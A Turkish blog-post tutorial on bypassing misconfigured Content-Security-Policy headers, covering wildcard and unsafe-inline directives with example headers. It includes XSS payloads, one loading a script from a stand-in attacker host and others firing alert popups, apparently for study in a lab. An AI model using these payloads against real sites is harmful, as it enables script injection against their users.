 ## Content-Security-Policy (CSP) Header Bypass
Content-Security-Policy HTTP başlığının yanlış konfigüre edilmesinden kaynaklı atlatma yöntemleri ortaya çıkmaktadır. Burada CSP başlığını konfigüre etmenin belli bir standartı bulunmamaktadır. Bu durum tamamen yazılım geliştiricinin / sistem yöneticisinin elindedir ve çeşitli caselere göre değişiklik gösterecektir. Bu noktada belirtmeliyim ki CSP'yi bypasslamanın oldukça fazla yolu vardır. Bu blogpostta en popüler yöntemlerden bahsedeceğim. Bunlar şu şekildedir:
* Wildcard (*)
* unsafe-inline
* File Upload ve self Direktifinin Kullanılması Durumu
* Whitelisted Scheme
* base-uri Direktifinin Bulunmaması Durumu

### Wildcard
Wildcard yani asterisk sembolü (*) bilgisayar bilimlerinde hemen her alanda aynı anlama gelmektedir sanıyorum. Bu karakter tümü anlamına gelmektedir. Bir örnek ile açıklamamız gerekirse ***.ayberk.ninja** şeklinde bir tanımlama yaparsak bu tüm subdomainleri kapsadığı anlamına gelecektir.

```http
Content-Security-Policy: script-src self https://*.ayberk.ninja; img-src *
```
Bir başka wildcard örneği verecek olursak;

```http
Content-Security-Policy: script-src 'self' https://twitter.com https: data *; 
```

Burada gelen kaynağın adresine bakmaksızın gelen source'ları kabul edecektir. Burada zafiyeti sömürmek için aşağıdaki gibi bir payload kullanılabilir:
```html
"/>'><script src=https://attacker-website.com/evil.js></script>
```

> Burada kaçırılmaması gereken nokta, wildcard direktifinin data: blob: ve filesystem: şemalarına da izin vermesidir.

### unsafe-inline
Burada inline'ın anlamını hepimizin bildiği bir örnek ile açıklayalım.
```js
<script>document.getElementById(errorBox).style.display = "none";</script>
```

Bir HTML belgesinin içerisinde tanımlanmış CSS satırlarına inline CSS, JS satırlarına ise inline JavaScript denmektedir. İsminden de anlaşılabileceği üzere unsafe-inline ise inline JavaScript ve CSS kullanımına izin verildiği anlamına gelmektedir. Örnek tanımlanma şekli şöyledir:
```http
Content-Security-Policy: script-src https://google.com 'unsafe-inline'; 
```

Bu direktifte doğrudan aşağıdaki gibi bir payload çalışacaktır.
 ```js
"/><script>alert(1);</script>
```

Demo ortamında örneğimizi incelemek için <a href="https://brutelogic.com.br/csp/csp-unsafe-inline.php?p=%3Csvg%20onload=alert(1337)%3E" target="_blank">Brute Logic'in CSP Lab'ını</a> kullandım. Sayfanın kaynak kodunu aşağıdaki görselde görmektesiniz.
